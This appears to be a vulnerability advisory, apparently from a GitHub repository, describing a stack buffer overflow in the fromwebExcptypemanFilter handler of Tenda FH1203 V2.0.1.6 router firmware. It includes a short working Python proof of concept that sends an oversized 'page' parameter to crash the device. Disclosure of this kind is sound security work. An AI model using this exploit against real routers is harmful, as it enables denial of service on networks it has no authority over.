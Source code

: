 # fromwebExcptypemanFilter

## Overview

- Firmware download website: https://www.tenda.com.cn/download/detail-2495.html

## Affected version

FH1203 V2.0.1.6

## Vulnerability details


There is a stack buffer overflow vulnerability in  FH1203 V2.0.1.6, located in the **fromwebExcptypemanFilter** function. The function receives the `page` parameter from a POST request. `   sprintf(v8, "firewall_murlexcplist.asp?page=%s", v3);` The statement will cause a buffer overflow. The `page` value provided by the user may exceed the capacity of the `v8` array, thereby triggering this security vulnerability.

![image](https://github.com/user-attachments/assets/6121f8f8-0393-4cdb-a426-384d5eb69753)



## POC

```python
import requests

ip = "192.168.0.1"
url = "http://" + ip + "/goform/webExcptypemanFilter"
payload = b"a"*2000

data = {"page": payload}
response = requests.post(url, data=data)
print(response.text)
```
![image](https://github.com/user-attachments/assets/4eaf1bbf-18c0-4c84-80bc-c9768da99e3e)

